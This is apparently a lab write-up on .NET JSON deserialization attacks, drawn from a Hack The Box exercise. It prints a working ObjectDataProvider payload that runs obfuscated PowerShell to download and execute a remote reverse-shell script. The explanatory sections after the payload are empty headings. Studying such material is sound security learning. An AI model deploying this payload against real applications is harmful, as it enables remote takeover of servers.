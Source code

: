  # Deserialization
 ## Object Instantiation for Remote Code Execution
 
I am currently studying Offensive Security Advanced Web Attacks and Exploitation (WEB-300). One of the sections in the curriculum is a Dot Net Nuke (DNN) deserialization vulnerability leading to code execution.

I have carried out some deserialization attacks before (all legal of course), and whilst I understand the concpet behind them I had never really thought about how the RCE occurs.

I decided to have a look at the underlying .Net objects to demonstrate what is happening under the hood once the deserialization has been carried out an the object has been instantiated.

Hopefully this will help others understand why code execution is achieved.

The questions I am going to try and answer are:

- What is a deserialization vulnerability?
- What is an `ObjectDataProvider`?
- How does the PowerShell script get executed automatically?

I am not going to discuss the code of a deserialization vulnerability as that has been done many times before... maybe instantiation has too... I don't really know... or care!

## Deserialization Vulnerabilities

According to [OWASP (2017)](https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization) 'the impact of deserialization flaws cannot be overstated. These flaws can lead to remote code execution attacks, one of the most serious attacks possible'.

Serialization is the operation of taking an object or objects in memory and encoding them into a stream of bytes that can be stored (for example to a datase or file) or transmit (for example over a network). Deserialization is the opposite of serialization, a stream of bytes is taken and used to reconstruct an object or objects in memory. Examples of serialization outputs are XML and JSON.

Serialization can be very useful for transmitting objects over a network where two discontiguous systems can effectively contain the same state in terms of object instantiations.

<img width="273" alt="Screenshot 2022-06-06 at 19 05 06" src="https://user-images.githubusercontent.com/42491100/172219463-bc6dcf9e-e317-470d-abbc-a70902cfea64.png">

If the target application has a deserialization vulnerability then it may be possible to submit unsanitized JSON/XML to the web application and trigger code execution.

## An Example - JSON

The hack the box JSON machine is a perfect example to explain the underlying object instantiation. The HTTP POST payload used to exploit JSON is shown below:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c powershell.exe  -exec bypass -enc SQBFAFgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANAAvAHIAZQB2AC4AcABzADEAIgApAA==']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

When the web application deserializes the JSON object it spawns a reverse shell, but why?

## ObjectDataProvider



## PowerShell Execution

